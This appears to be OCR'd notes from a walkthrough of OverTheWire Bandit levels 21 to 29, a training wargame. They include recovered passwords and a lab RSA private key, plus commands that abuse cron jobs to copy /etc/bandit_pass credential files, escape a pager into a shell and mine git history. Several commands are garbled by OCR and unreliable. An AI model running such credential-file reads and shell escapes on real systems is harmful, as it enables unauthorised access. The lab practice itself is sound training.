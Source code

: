 level 21-22 cd /etc/cron.d ls a directory vim /etc/cron.d/ ls /etc/cron.d/ cat /etc/cron.d/cronojob_bandit22 @reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null ****** bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null cat /usr/bin/cronjob_bandit22.sh #!/bin/bash chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI exit level 22-23 ssh bandit22@bandit.labs.overthewire.org -p 2220 us cat /etc/cron.d/cronojob_bandit23 @reboot bandit23 /usr/bin/cronjob_bandit23.sh &> /dev/null ****** bandit23 /usr/bin/cronjob_bandit23.sh &> /dev/null whoami myname myname=bandit23 echo I am user name $myname | md5sum l cut -d '' -f 1 8ca319486bfbbc3663ea0fbe81326349 cat /tmp/8ca319486bfbbc3663ea0fbe81326349 jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n exit level 23-24 ssh bandit23@bandit.labs.overthewire.org -p 2220 jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n ls /etc/cron.d cat /etc/cron.d/cronojob_bandit24 @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null ****** bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null cat /etc/cron.d/cronojob_bandit24.sh cat /usr/bin/cronjob_bandit24.sh mkdir /tmp/bandit-pass24 chmod 777 /tmp/bandit-pass24/ vim get-pass.sh which bash cat /etc/bandit_pass/bandit24 > /tmp/bandit-pass24/password.txt chmod +x get-pass.sh date ls /tmp/bandit-pass24/password.txt cat /tmp/bandit-pass24/password.txt UoMYTrfrBFHyQXmg6gzctqAwOmw1Iohz exit

level 24-25 ssh bandit24@bandit.labs.overthewire.org -p 2220 UoMYTrfrBFHyQXmg6gzctqAwOmw1Iohz nc locahost 30002 mkdir /tmp/bandit-pass25 cd /tmp/bandit-pass25 vim script.sh chmod +x script.sh ls -l ./script.sh | nc locahost 30002 uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

level 25-26 ssh bandit25@bandit.labs.overthewire.org -p 2220 uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG cat /etc/passwd | grep bandit26 ls cat bandit26.sshkey -----BEGIN RSA PRIVATE KEY----- MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9 /5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi 1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix 3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI 2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj 6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3 JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd 1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5 /Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY= -----END RSA PRIVATE KEY-----

cat /usr/bin/showtext ssh -i bandit26.sshkey bandit26@localhost more -V :: configurar /bin/bash ./bandit27-do cat /etc/bandit_pass/bandit27 3ba3118a22e93127a4ed485be72ef5ea exit

level 26-27 cat /usr/bin/showtext ssh -i bandit26.sshkey bandit26@localhost more -V :: configurar /bin/bash ./bandit27-do cat /etc/bandit_pass/bandit27 3ba3118a22e93127a4ed485be72ef5ea exit ssh bandit27@bandit.labs.overthewire.org -p 3ba3118a22e93127a4ed485be72ef5ea

level 27-28 mkdir /tmp/bandit-pass28 cd /tmp/bandit-pass28 git clone "ssh://bandit-git@localhost/home/bandit27-git/repo" cd repo/ ls cat README 0ef186ac70e04ea33b4c1853d2526fa2 exit

level 28-29 ssh bandit28@bandit.labs.overthewire.org -p 2220 0ef186ac70e04ea33b4c1853d2526fa2 mkdir /tmp/bandit-pass29 cd /tmp/bandit-pass29 git clone "ssh://bandit28-git@localhost/home/bandit28-git/respo" ls cd repo/ ls cat README.md git log git diff edd935d60906b33f0619605abd1689808ccdd5ee c086d11a00c0648d095d04c089786efef5e01264
